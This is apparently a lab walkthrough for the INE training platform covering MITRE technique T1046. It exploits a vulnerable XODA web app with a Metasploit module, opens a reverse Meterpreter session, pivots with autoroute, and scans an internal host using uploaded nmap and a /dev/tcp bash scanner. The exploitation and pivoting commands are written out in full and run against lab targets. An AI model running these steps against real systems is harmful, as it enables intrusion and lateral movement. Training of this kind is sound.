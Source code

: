 # T1046: Network Service Scanning (Full Lab Walkthrough)

This lab demonstrates how to use Metasploit and various tools to discover and scan services running on a second target machine via a compromised host.

## Step-by-Step Instructions

### 🟢 Step 1: Access the Kali Machine
Open the lab environment to access the pre-configured Kali Linux machine.

---

### 🟢 Step 2: Check Connectivity to the Target
Use `ping` to check if the first target is reachable.
```bash
ping -c 4 demo1.ine.local
```

---

### 🟢 Step 3: Port Scan with Nmap
Scan the first target to find open ports.
```bash
nmap demo1.ine.local
```
✅ Port 80 is open.

---

### 🟢 Step 4: Check Web Content
Use `curl` to inspect the content of port 80.
```bash
curl demo1.ine.local
```
✅ XODA web app is detected.

---

### 🟢 Step 5: Start Metasploit
```bash
msfconsole
```

---

### 🟢 Step 6: Exploit XODA Vulnerability
Use the Metasploit module to gain access.
```bash
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.63.4.2
exploit
```
✅ Meterpreter session opened.

---

### 🟢 Step 7: Discover Internal IP Range
Run the following in Meterpreter to find the second subnet:
```bash
shell
ip addr
```
✅ Discovered subnet: `192.180.108.0/24`

---

### 🟢 Step 8: Add Route to New Subnet
```bash
run autoroute -s 192.180.108.2
```

---

### 🟢 Step 9: Scan the Second Target
Background the Meterpreter session (CTRL+Z + Y) and run a TCP port scan:
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.180.108.3
set verbose false
set ports 1-1000
exploit
```
✅ Open ports: 21, 22, 80

---

### 🟢 Step 10: Check for Nmap Static Binary
```bash
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap
```

---

### 🟢 Step 11: Create Bash Port Scanner Script
Create a file called `bash-port-scanner.sh` with this content:
```bash
#!/bin/bash
for port in {1..1000}; do
  timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```

---

### 🟢 Step 12: Reopen Meterpreter Session
```bash
sessions -i 1
```

---

### 🟢 Step 13: Upload Tools to Target
```bash
upload /root/static-binaries/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
```

---

### 🟢 Step 14: Run Bash Script on Target
```bash
shell
cd /tmp
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh 192.180.108.3
```

---

### 🟢 Step 15: Run Nmap from Target
```bash
./nmap -p- 192.180.108.3
```
✅ Ports open: FTP (21), SSH (22), HTTP (80)

---

## Summary

In this lab, we:
- Scanned an external target
- Exploited a vulnerable web app to gain access
- Used autoroute to pivot into an internal network
- Scanned a second host using both a custom script and Nmap
